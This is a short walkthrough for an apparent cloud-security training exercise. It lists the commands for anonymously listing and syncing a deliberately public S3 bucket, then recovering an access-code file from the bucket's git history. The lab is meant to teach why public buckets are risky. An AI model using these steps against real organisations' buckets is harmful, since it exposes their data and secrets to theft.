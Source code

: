 # Mission 1 cheat sheet


This mission is mainly used to show that a public bucket is a bad, bad idea.


  * Given: Bucket name
  * Variables: $id


$ `aws --no-sign-request s3 ls s3://evilcorp-evilbucket-$id`

List the bucket to see its contents. The `--no-sign-request` flag serves to list it anonymously.


$ `aws --no-sign-request s3 sync s3://evilcorp-evilbucket-$id ./bucket`

Copy the contents of the bucket in a local folder. Since the bucket is public and its permissions are extra-loose, you can do it anonymously.


$ `cd bucket; git log`

The bucket contains a git folder. The log command serves to check the commits in there.


$ `git checkout <hash of first commit>`

Get the first commit in the git.


$ `cat extremely-evil-access-code.txt`

You win! Decoding the flag is optional.